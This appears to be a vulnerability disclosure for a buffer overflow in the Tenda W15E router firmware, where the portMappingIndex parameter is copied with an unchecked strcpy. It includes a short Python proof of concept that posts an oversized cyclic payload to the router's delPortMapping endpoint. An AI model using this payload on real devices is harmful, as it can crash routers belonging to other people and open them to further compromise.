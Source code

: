 # W15E buff overflow vulnerability
Vendor: Tenda W15E
Version: US_W15EV1.0br_V15.11.0.13(1068_1523_841)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x0007D064. IndexSet gets the content of portMappingIndex and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows: 

![image](https://github.com/sezangel/IOT-vul/assets/89381625/5ea6e8be-7056-419c-a3b3-6818b9e7ef56)

POC:
```python
import requests
from pwn import *

url='http://192.168.100.2/goform/delPortMapping'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='portMappingIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```



